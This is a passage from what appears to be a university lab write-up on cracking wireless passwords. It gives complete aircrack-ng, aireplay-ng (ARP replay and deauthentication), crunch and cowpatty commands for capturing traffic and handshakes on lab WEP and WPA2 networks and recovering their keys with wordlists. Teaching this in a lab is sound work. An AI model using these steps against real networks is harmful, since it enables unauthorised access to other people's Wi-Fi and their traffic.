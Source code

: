 # ES1 WEP

```bash
# Install software
sudo apt install aircrack-ng

# get interface name
# for me is wlp3s0
# when see wlp3s0, change this with your interface name
ip addr

# kill process that can be cause interferences with monitor mode 
sudo airmon-ng check kill
# start monitor mode
sudo airmon-ng start wlp3s0

# start sniffing
# you need to provide the interface namen in monitor mode that is
# your_interface_name + "mon"
sudo airodump-ng wlp3s0mon
# if you want to monitor a single channel 
# use '-c' with the number of channel
# try with -c 6 for this exercise
sudo airodump-ng wlp3s0mon -c 6

```

Our target is "RSI-Wep"

![WEP01Scan](wep_01_scan.png)

with BSSID = `00:1E:E5:28:65:49`. With this information we can start another time `airodump` in order to capture data. 

```bash
$ sudo airodump-ng -c 6 --bssid 00:1E:E5:28:65:49 -w wep.cap wlp3s0mon
```

and the situation is like this.

![alt text](image-1.png)

We need to generate some traffic in order to capture the right amount of IV (Initialization Vector) and retrive the password. To do that we use `aireplay-ng` that allowq us to send ARP requests from hosts to the access point. 

```bash
# -3 -> mode that send arp traffic at the hosts connected to acces point
$ sudo aireplay-ng -3 wlp3s0mon -b 00:1E:E5:28:65:49

```


![alt text](image-2.png)


```bash
# In another terminal, when you capture #Data > 500, you can start to try decrypt password
$ sudo aircrack-ng ./wep.cap

```

After few minuts o just a few seconds (if you have an host that generate an huge data traffic, like a video stream).
You decrypt the password!
![alt text](image-9.png)

end then you can stop `airdump` and escape from monitor mode

```bash
sudo airmon-ng stop wlp3s0mon
```

To go deep: https://www.aircrack-ng.org/doku.php?id=simple_wep_crack


# ES2 WPA2

Our target now is `RSI-Sicurissima`. 

## Capture handshake
```bash
$ iw dev
$ sudo airmon-ng start wlp3s0
$ sudo airodump-ng wlp3s0mon
```
![alt text](image-4.png)

```bash
# Start capture
$ sudo airodump-ng -c 6 --bssid  00:1E:E5:28:65:4B  -w wpa.cap wlp3s0mon
# In other terminal trigger the arp traffic like before in es1
$ sudo aireplay-ng -0 2 -a  00:1E:E5:28:65:4B  wlp3s0mon
```

![alt text](image-5.png)

```bash
$ sudo airmon-ng stop wlp3s0mon
```

## Get dictionary
Once the WPA2 handshake has been captured, we can start cracking the password

One of the things that we will try out with breaking through WPA and WPA2, is by using a dictionary attack. Dictionary attack is a technique to break through an authentication mechanism by trying to figure out it’s decryption key or passphrase by trying out hundreds, thousands or even billions of likely possibilities. Most vulnerable victims of this attacks are Wi-Fi’s that have their password set to something simple, such as `cat`, `dog`, `airplane`, `football` and so on - like the words in a dictionary. 
We can generate custom dict or we can use wellknow dictionary. 

```bash 
# Generate custom dictionary
# crunch <min_lenght> <max_lenght> charset [-t <pattern> ] -o dictionary.txt
$ sudo crunch 5 8 qwertyuiopasdfghjklzxcvbnm -o dictionary.txt
Crunch will now generate the following amount of data: 1945931761280 bytes
1855785 MB
1812 GB
1 TB
0 PB
Crunch will now generate the following number of lines: 217179671904 
crunch:   0% completed generating output
...

# Get common and widely use dictionary
$ sudo apt install john
$ mkdir /usr/share/rockyou
$ cd /usr/share/rockyou
$ wget https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
```

After that, the dictionaries can be found in the `/usr/share/john` and `/usr/share/rockyou` folders, respectively.

## Start bruteforce attack

We can now start the bruteforce attack. We suggest to use `john` and/or `rockyou` dictionary to complete the exercise before the end of the laboratory session

```bash

# /usr/share/john/password.lst
# /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou-10.txt
# ./toy_dict.txt
$ sudo aircrack-ng -w ./toy_dict.txt wpa.cap
```

or with our custom dict 

![alt text](image-8.png)


## Start a Rainbow Table attack
Rainbow Tables are pre-computed tables of hash values that are pre-matched to possible plain text passwords. Rainbow tables are mainly used to crack hashes very quickly.

```bash
$ sudo apt install cowpatty

# with common dictionary
$ genpmk -f /usr/share/john/password.lst -s RSI-Sicurissima -d rainbow.txt
$ sudo cowpatty -d rainbow.txt -r cap/wpa.cap-01.cap -s RSI-Sicurissima 
...
Unable to identify the PSK from the dictionary file. Try expanding your
passphrase list, and double-check the SSID.  Sorry it didn't work out.

# with custom dict
$ echo "nonmicraccheraimai" > dict.txt
$ sudo genpmk -f dict.txt -s RSI-Sicurissima -d rainbow.2.txt

$ sudo cowpatty -d rainbow.2.txt -r cap/wpa.cap-01.cap -s RSI-Sicurissima 
...

The PSK is "nonmicraccheraimai".



```


![alt text](image-7.png)


